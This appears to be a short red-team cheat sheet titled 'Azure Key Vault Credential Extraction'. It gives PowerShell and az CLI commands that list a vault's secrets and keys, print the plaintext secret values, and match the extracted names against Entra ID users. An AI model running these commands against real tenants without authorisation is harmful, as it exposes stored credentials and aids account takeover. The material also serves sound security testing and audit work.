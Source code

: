 # Azure Key Vault Credential Extraction

### Set variables

$VaultName = "VAULT_NAME"

### Set the current Azure subscription

$SubscriptionID = SUBSCRIPTION_ID"
az account set --subscription $SubscriptionID

### List and store the secrets

$secretsJson = az keyvault secret list --vault-name $VaultName -o json
$secrets = $secretsJson | ConvertFrom-Json

### List and store the keys

$keysJson = az keyvault key list --vault-name $VaultName -o json
$keys = $keysJson | ConvertFrom-Json

### Output the secrets

Write-Host "Secrets in vault $VaultName"
foreach ($secret in $secrets) {
    Write-Host $secret.id
}

### Output the keys

Write-Host "Keys in vault $VaultName"
foreach ($key in $keys) {
    Write-Host $key.id
}

### Set variables

$VaultName = "VAULT_NAME"
$SecretNames = @("NAME_1", "NAME_2", "NAME_3")

### Set the current Azure subscription

$SubscriptionID = "SUBSCRIPTION_ID"
az account set --subscription $SubscriptionID

### Retrieve and output the secret values

Write-Host "Secret Values from vault $VaultName"
foreach ($SecretName in $SecretNames) {
    $secretValueJson = az keyvault secret show --name $SecretName --vault-name $VaultName -o json
    $secretValue = ($secretValueJson | ConvertFrom-Json).value
    Write-Host "$SecretName - $secretValue"
}

### Check if any of these extracted credentials are valid existing Entra ID users

 - az ad user list --query "[?givenName=='NAME_1' || givenName=='NAME_2' || givenName=='NAME_3'].{Name:displayName, UPN:userPrincipalName, JobTitle:jobTitle}" -o table
